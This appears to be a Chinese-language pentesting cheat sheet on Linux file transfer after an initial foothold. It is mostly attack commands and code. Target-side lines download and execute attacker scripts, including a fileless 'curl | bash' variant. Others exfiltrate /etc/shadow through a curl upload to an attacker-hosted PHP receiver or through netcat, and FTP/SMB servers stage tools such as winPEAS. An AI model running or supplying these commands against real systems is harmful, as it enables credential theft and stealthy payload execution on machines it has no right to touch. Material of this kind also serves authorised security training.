 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Linux文件传输 - Linux File Transfers

## 常规方式

### 利用Python传输：

```bash
// Attacker
python3 -m http.server 8888
```

```bash
// Target
wget http://攻方IP:8888/利用脚本.sh
chmod +x 利用脚本.sh
利用脚本.sh
```

### 利用Apache2传输：

```
// Attacker
1. 准备好upload.php文件，放在/var/www/html目录下；
2. 同时在/var/www/html目录下再创建一个/uploads目录，用于存放稍后从目标系统中传回的敏感文件；
```

```bash
// Target
curl --form "uploadedfile=@/etc/shadow" http://攻方IP/upload.php
```

```php
// upload.php
<?php  
$target_path = "uploads/";
$target_path = $target_path.basename($_FILES['uploadedfile']['name']);

echo "Source=".$_FILES['uploadedfile']['name']."<br/>";
echo "Target path=".$target_path."<br/>";
echo "Size=".$_FILES['uploadedfile']['size']."<br/>";

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)){
	echo "The file".basename($_FILES['uploadedfile']['name'])."has been uploaded";
}else{
	echo "There was an error uploading the file,please try again!"
}

?>
```

### 利用Netcat传输

```bash
// Attacker
nc -lvp 1234 > 传回的文件名 
```

```bash
// Target
nc 攻方IP 1234 < 待传回的文件名
```

### 利用FTP传输

```bash
// Attacker
sudo python3 -m pyftpdlib  -p 21 -w
python -m pyftpdlib -p 21
```

```bash
// Target
ftp -A 攻方IP
dir               # 查找要传到目标上的程序，本例为：winPEAS.exe
get winPEAS.exe
bye
```

### 利用SCP传输

```bash
// Attacker
scp 待传输文件的路径 目标用户命@目标IP:传输后保存的路径
```

### 利用SMB传输

```bash
// Attacker
sudo smbserver.py -smb2support liodeus .
```



## 隐蔽方式

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
curl http://攻方IP:8888/利用脚本.sh | bash
```

MEMO：该利用脚本不会被保存在目标系统中
